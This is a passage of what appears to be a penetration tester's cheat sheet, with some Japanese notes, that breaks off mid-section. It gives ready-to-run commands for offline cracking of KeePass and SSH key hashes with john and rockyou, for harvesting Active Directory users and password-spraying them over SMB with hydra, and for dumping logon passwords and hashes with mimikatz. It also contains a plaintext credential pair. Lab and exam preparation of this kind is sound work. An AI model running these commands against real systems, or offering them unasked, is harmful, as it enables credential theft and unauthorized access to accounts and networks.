     bking:ThaBoss1
    ```

### john
* linux
    * 2john
    ```
    keepass2john Database.kdbx > keepas.hash
    ```
    ```
    ssh2john id_rsa > ssh.hash
    ```
    * normal
    ```
    john --wordlists=/usr/share/wordlists/rockyou.txt ssh.hash
    ```
    * rule
    ```
    john --wordlist=ssh.passwords --rules=sshRules ssh.hash
    ```
    hashcatルールからjohnへのルール変換例
    ```
    kali@kali:~/passwordattacks$ cat ssh.rule
    [List.Rules:sshRules]
    c $1 $3 $7 $!
    c $1 $3 $7 $@
    c $1 $3 $7 $#

    kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
    ```

### Password Spray All Domain Users
* linux
    * Harvesting ad users
    ```
    GetADUsers.py hiboxy.com/bgreen:Password1 -dc-ip 10.130.10.4 -all | tee /tmp/adusers.txt
    ```
    * Extract users
    ```
    tail -n +6 /tmp/adusers.txt | cut -d ' ' -f 1 | tee /tmp/domainusers.txt
    ```
    * Try spraying
    ```
    hydra -L /tmp/domainusers.txt -p Password1 -m workgroup:{hiboxy} 10.130.10.4 smb2
    ```

### mimikatz
* windows
    * SeDebugPrivilege
        ```
        privilege::debug
        ```
    * token privilege
        ```
        token::elevate
        ```
    * output all password and password hash
        ```
        sekurlsa::logonpasswords
        ```
    * extract NTLM Hash from SAM
        ```